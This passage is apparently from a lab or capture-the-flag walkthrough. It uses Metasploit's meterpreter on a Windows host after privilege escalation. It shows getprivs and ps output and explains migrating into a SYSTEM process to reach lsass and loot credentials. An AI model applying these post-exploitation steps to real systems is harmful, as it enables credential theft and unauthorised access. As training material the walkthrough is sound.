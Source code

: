 Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`

We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?

```shell
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

* * * 

## Loot

Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't). 

```shell
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 100   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 508   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
```
